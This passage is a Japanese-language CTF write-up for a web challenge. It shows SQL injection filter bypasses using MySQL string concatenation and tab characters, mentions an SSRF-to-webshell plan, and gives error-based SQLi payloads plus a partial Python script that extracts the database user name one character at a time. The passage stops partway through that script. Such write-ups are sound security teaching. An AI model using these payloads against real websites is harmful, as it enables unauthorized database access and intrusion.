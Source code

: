 ```php
?>
```

めちゃくちゃ厳しいフィルターを通れば SQLi ができそうです。とりあえず `admin` としてログインしてみましょう。

MySQL では `'a' 'dmi' 'n' = 'admin'` となり、また水平タブや垂直タブも空白文字として使えることを利用して、`?name=a%27%09%27dmi%27%09%27b` にアクセスすると `did_you_try_last_year_link.php` にリダイレクトされました。

`did_you_try_last_year_link.php` にアクセスすると以下のような HTML が表示されました。

```html
<!DOCTYPE html>
<html>
<head><title>SomeTimes hard chall is good</title></head>
<body>
<h2>Welcome Back!!! admin !!!</h2>
<h3>You have one functionality that you can cURL</h3>
<form method=POST>
put url : <input type="text" name="url">
<button type="submit">GO</button>
</form>
</body>
</html>
```

SSRF ができそうな雰囲気がありますが、何をすればよいのでしょうか。

適当にググっていると、昨年の InCTF で出題された GoSQL という問題の[作問者による write-up](https://spyclub.tech/2018/10/08/2018-10-08-inctf2018-web-challenge-writeup/) がヒットしました。読んでみると、MySQL のユーザ名を特定 → MySQL サーバに対して SSRF で WebShell を書き込み → RCE という流れのようです。

この問題でも同じことができないか、とりあえず MySQL のユーザ名を特定してみましょう。

`index.php` のソースコードを読むと、MySQL 側でエラーが発生したときに `Having a query problem` というメッセージが表示されることがわかります。ある条件を満たしたときにだけエラーを意図的に発生させるというような Error-based SQLi を試してみましょう。`if` や `case` のかわりに [`elt` 関数](https://dev.mysql.com/doc/refman/5.6/ja/string-functions.html#function_elt)を使って、`%27-extractvalue(0,elt(0,%27@%27))%09--%09` のときには `You are not admin`、`%27-extractvalue(0,elt(1,%27@%27))%09--%09` のときには `Having a query problem` が表示されました。

`user()` の末尾は `@localhost` になることと `x'41' = 'A'` になることを利用して、`replace(user(),x'(試行する文字)406c6f63616c686f7374','')` の文字数が変化したかどうかで 1 文字ずつユーザ名を特定しましょう。

```python
import binascii
import requests
import urllib.parse

URL = 'http://(省略)/?name='

# get length of user()
length = 1
while True:
  payload = "'-extractvalue(0,elt(1-(length(user())-{}),'@'))\t--\t".format(length)
  r = requests.get(URL + urllib.parse.quote(payload))

  if b'<h4>Having a query problem</h4>' in r.content:
    break
  
  length += 1

print('length:', length)

# get user()
known = '@localhost'
for _ in range(length - len(known)):
  for c in '0123456789abcdefghijklmnopqrstuvwxyz_':
    hexstr = binascii.hexlify((c + known).encode()).decode()
```